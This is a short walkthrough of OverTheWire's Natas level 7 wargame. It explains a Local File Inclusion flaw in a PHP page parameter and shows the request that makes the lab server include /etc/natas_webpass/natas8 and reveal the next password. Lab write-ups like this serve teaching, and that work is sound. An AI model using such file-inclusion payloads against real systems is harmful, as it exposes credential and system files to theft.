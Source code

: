 # 🔐 Natas 7 Walkthrough

Here we can see two subpages we can go to, while clicking both of them we can see that 
the url changes from:

`http://natas7.natas.labs.overthewire.org/index.php?page=home`

to:

`http://natas7.natas.labs.overthewire.org/index.php?page=about`

What's the difference in those url's? Well the `page=X`, this loads the page based on this parameter.

## 🔍 Observing a Clue

Inspecting the site we can see a hint which tells us that the password is hidden in: 

`/etc/natas_webpass/natas8`

Naturally we try to paste that in the url:

`http://natas7.natas.labs.overthewire.org/index.php?page=about/etc/natas_webpass/natas8`

The output however isnt what we would want. We receive an error:

```Warning: include(about/etc/natas_webpass/natas8): failed to open stream: No such file or directory in /var/www/natas/natas7/index.php on line 21

Warning: include(): Failed opening 'about/etc/natas_webpass/natas8' for inclusion (include_path='.:/usr/share/php') in /var/www/natas/natas7/index.php on line 21```

Why? Because the server is interpreting `page=about/etc/natas_webpass/natas8`, meaning it's looking inside the `about/` folder — which doesn't exist or doesn't contain our target file.

## 🛠 How can we exploit that?

This is a classic Local File Inclusion (LFI) vulnerability. Instead of appending to `about/`, we need to overwrite the entire ***page*** parameter with the full path:

```http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8```

This naturally gives us the password to the next level. 
